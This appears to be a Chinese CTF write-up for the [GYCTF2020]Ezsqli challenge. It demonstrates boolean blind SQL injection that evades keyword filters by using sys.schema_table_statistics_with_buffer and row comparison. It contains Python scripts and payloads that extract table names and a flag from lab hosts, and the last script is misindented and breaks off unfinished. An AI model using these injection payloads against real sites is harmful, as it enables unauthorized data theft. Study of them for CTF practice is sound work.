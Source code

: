 例题：[GYCTF2020]Ezsqli

一个post的输入框，存在sql盲注注入（正确则回显Nu1L）。但是过滤了很多东西，or、and、union、information_schema、sys.schema_auto_increment_columns、join等都不能用了。我们要是用sys.schema_table_statistics_with_buffer来绕过information_schema，先把表给爆出来：

```python
import requests

url='http://8e176081-905d-4063-a906-4eed1f03ed17.node3.buuoj.cn/index.php'
payload='1&&ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}'

result=''
for j in range(1,500):
    for i in range(32,128):
        py=payload.format(j,i)
        datas={'id':py}
        re=requests.post(url=url,data=datas)
        if 'Nu1L' in re.text:
            result+=chr(i)
            print(result)
            break
```

得到表名：f1ag_1s_h3r3_hhhhh之后通过比较获取数据

当然先要判断有多少列

```sql
payload：(select(1,2)>(select * from f1ag_1s_h3r3_hhhhh))
payload：(select(1,2,3)>(select * from f1ag_1s_h3r3_hhhhh))
。。。
写了两个payload从第二开始就回显bool(false)，说明这个表只有两列
```

```python
import requests
import time
url = 'http://5910aea7-fde6-4346-a5f4-125b8770a739.node4.buuoj.cn:81/index.php'
flag=''
for i in range(1,50):
    for j in range(33,127):
        x=flag+chr(j)
        payload = "2&&((select * from f1ag_1s_h3r3_hhhhh)<(select 1,'{}'))".format(x)
        data={
        'id':payload
        }
        r = requests.post(url=url,data=data)
            time.sleep(0.03)#这里一定要注意，要不让请求速度过快，没有信息返回
        if 'Nu1L' in r.text:
            flag=flag+chr(j-1)
            print(flag)
            break

二分法版本：
import requests
import time
    url = 'http://5910aea7-fde6-4346-a5f4-125b8770a739.node4.buuoj.cn:81/index.php'
    flag = ""
    i = 0
    while True:
        i = i + 1
        letf = 28
        right = 130
        while letf < right:
            s = flag
            mid = (letf + right) // 2
```